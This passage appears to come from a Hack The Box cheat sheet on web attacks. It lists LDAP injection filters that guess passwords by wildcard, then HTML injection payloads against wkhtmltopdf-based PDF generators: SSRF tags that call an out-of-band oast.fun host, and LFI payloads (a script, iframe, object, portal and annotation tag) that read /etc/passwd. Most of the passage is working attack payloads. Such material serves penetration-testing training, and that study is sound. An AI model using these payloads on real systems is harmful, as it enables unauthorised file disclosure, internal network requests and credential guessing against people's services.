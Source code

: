 |`htb-stdnt`|`p@ssw0rd*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))`|
|`htb-stdnt`|`p@ssw0rd`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd))`|

### PDF Generation Vulnerabilities

**Determining the PDF Generation Library**

```
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

**Server-Side Request Forgery (SSRF) Payloads**

```
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

**Local File Inclusion (LFI) Payloads**

```
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```